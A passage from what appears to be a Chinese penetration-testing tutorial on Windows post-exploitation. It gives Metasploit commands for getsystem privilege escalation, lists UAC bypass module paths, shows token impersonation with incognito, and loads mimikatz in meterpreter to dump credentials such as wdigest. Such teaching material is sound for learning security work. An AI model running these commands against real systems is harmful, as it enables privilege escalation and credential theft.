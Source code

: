 不过这里还有个更简单的方法，就是利用 getsystem 命令去获取 SYSTEM 权限，如下图所示。

![Drawing 16.png](https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEaWAPN3CAABEa5FU48c948.png)  
图 17 利用 getsystem 提权

#### 2.绕过 UAC

即使是 Administrator 权限，有时在执行程序时会失败，相信你对下图的弹框不会陌生。这就是 UAC（用户账户控制），其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序损坏系统的效果。

![Drawing 17.png](https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEayAQhAQAACp3hxvVs4058.png)  
图 18 UAC 导致的弹框

关于绕过 UAC 的原理，我们此处展开讨论，这里推荐几个 Metasploit 自带的利用模块来绕过 UAC：

```java
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```

你是不是发现 Metasploit 功能很强大？它什么功能都有，后面的利用，我们还会继续使用到它。

#### 3.令牌窃取

令牌是系统中的临时分配的认证凭证，等同于账号、密码，决定是否允许当前请求及其所属用户。也就是说，获得令牌后，用户可以在不提供密码的情况下访问网络和系统资源。如果被攻击者窃取到，就等同于窃取了他人账号。

在 Metasploit 中可使用 incognito 去罗列当前系统中的有效 Token 并进行复制伪造，如下图所示，假冒"NT AUTHORITY\\SYSTEM"令牌成功获取系统管理员权限。

![Drawing 18.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEbWAfYtIAADYedlIyJY442.png)  
图 19 令牌窃取

### 横向移动渗透

为了扩大攻击成果，攻击者通常会利用已被攻破的系统作为跳板，去访问域内的其他主机，试图获得更多主机的控制权，下面介绍一些常用的横向移动渗透手段。

#### 1.抓取密码

在 Windows 上抓取密码的工具，最著名的当属 mimikatz，在 Metasploit 中也有集成，直接通过 load mimikatz 命令即可加载使用。

```java
meterpreter > load mimikatz
Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.
[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?
Success.
meterpreter > help
...
Mimikatz Commands
=================
    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
meterpreter > wdigest
```
